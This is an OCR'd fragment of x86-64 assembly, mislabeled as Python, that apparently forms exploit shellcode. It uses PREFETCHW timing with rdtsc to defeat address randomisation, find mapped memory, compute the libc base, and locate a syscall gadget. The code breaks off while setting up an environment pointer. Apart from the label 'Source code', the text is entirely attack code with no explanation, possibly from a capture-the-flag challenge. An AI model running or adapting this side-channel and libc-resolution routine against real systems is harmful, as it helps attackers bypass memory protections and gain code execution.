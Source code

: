 ```python
    inc rdi
    shl rdi, 10

    .time:
        rdtsc
        mov ebp,eax
        lfence
        PREFETCHW [rsp]
        lfence
        rdtsc
        sub eax,ebp
        add r11, rax
        dec rdi
        test rdi, rdi
    jnz .time
    shr r11, 10

    //threshold = mean +0x5
    add r11, 0x5 

    //binary starting value
    mov ch, 0x55
    shl rcx, 32
    mov rdi, rcx
    inc rsi
    shl rsi, 12
    mov rdi, rcx

    .find:
     add rdi, rsi
     PREFETCHW [rdi]
     lfence
     
     rdtsc
     mov ebp,eax
     lfence
     PREFETCHW [rdi]
     lfence
     rdtsc
     
     sub eax,ebp
     cmp rax, r11
     jge .find   
         
    //libc puts
    mov bx, 0x3f90
    add rdi, rbx
    mov rsi, [rdi]
    
    //libc base
    mov bx, 0x80e5
    shl rbx, 4
    sub rsi, rbx

    //libc syscall
    xor rbx,rbx
    mov bx, 0xa76d
    shl rbx, 2
    mov r10, rsi
    add r10, rbx
    
    //env
    mov rdx, rsi
```